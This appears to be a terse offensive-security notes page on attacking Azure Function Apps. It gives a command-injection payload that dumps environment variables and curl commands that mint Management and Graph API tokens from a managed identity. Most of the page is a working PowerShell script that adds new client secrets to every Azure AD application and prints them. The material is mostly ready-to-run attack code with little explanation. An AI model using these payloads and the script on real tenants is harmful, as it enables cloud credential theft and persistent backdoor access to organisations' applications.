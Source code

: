 # Function APP - Azure Serverless

> Used to execute code or specific fonctions triggered by specific actions such as file upload,. scheduled task etc.

* **Support Management Identities !**

## **Examples of APP compromise**

* simple command injection

```bash
127.0.0.1; echo $(env) | echo $(grep IDENT)
```

<figure><img src="../../../../.gitbook/assets/image (318).png" alt=""><figcaption></figcaption></figure>

### Generate tokens&#x20;

* Management API

```
curl "IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H "secret:IDENTITY_HEADER"
```

* Graph API

```
curl "IDENTITY_ENDPOINT?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H "secret:IDENTITY_HEADER"
```

<figure><img src="../../../../.gitbook/assets/image (319).png" alt=""><figcaption><p>Getting a connection using the 2 tokens</p></figcaption></figure>

### Situation Awareness&#x20;

* Search for resources

> example of no access to any resources :&#x20;

<figure><img src="../../../../.gitbook/assets/image (320).png" alt=""><figcaption><p>no access to resource</p></figcaption></figure>

* Enumerate for other potentials APPs

> Note: Credit to Altered Sec for the script

```powershell
Function Add-AzADAppSecret
{

<#
    .SYNOPSIS
        Add client secret to the applications.

    .PARAMETER GraphToken
        Pass the Graph API Token

    .EXAMPLE
        PS C:\> Add-AzADAppSecret -GraphToken 'eyJ0eX..'

    .LINK
        https://docs.microsoft.com/en-us/graph/api/application-list?view=graph-rest-1.0&tabs=http
        https://docs.microsoft.com/en-us/graph/api/application-addpassword?view=graph-rest-1.0&tabs=http
#>

    [CmdletBinding()]
    param(
    [Parameter(Mandatory=$True)]
    [String]
    $GraphToken = $null
    )

    $AppList = $null
    $AppPassword = $null

    # List All the Applications


    $Params = @{
     "URI"     = "https://graph.microsoft.com/v1.0/applications"
     "Method"  = "GET"
     "Headers" = @{
     "Content-Type"  = "application/json"
     "Authorization" = "Bearer $GraphToken"
     }
    }

    try
    {
        $AppList = Invoke-RestMethod @Params -UseBasicParsing
    }
    catch
    {
    }

    # Add Password in the Application

    if($AppList -ne $null)
    {
        [System.Collections.ArrayList]$Details = @()

        foreach($App in $AppList.value)
        {
            $ID = $App.ID
            $psobj = New-Object PSObject

            $Params = @{
             "URI"     = "https://graph.microsoft.com/v1.0/applications/$ID/addPassword"
             "Method"  = "POST"
             "Headers" = @{
             "Content-Type"  = "application/json"
             "Authorization" = "Bearer $GraphToken"
             }
            }

            $Body = @{
              "passwordCredential"= @{
                "displayName" = "Password"
              }
            }

            try
            {
                $AppPassword = Invoke-RestMethod @Params -UseBasicParsing -Body ($Body | ConvertTo-Json)
                Add-Member -InputObject $psobj -NotePropertyName "Object ID" -NotePropertyValue $ID
                Add-Member -InputObject $psobj -NotePropertyName "App ID" -NotePropertyValue $App.appId
                Add-Member -InputObject $psobj -NotePropertyName "App Name" -NotePropertyValue $App.displayName
                Add-Member -InputObject $psobj -NotePropertyName "Key ID" -NotePropertyValue $AppPassword.keyId
                Add-Member -InputObject $psobj -NotePropertyName "Secret" -NotePropertyValue $AppPassword.secretText
                $Details.Add($psobj) | Out-Null
            }
            catch
            {
                Write-Output "Failed to add new client secret to '$($App.displayName)' Application."
            }
        }
        if($Details -ne $null)
        {
            Write-Output ""
            Write-Output "Client secret added to : "
            Write-Output $Details | fl *
        }
    }
    else
    {
       Write-Output "Failed to Enumerate the Applications."
    }
}

```

<figure><img src="../../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>
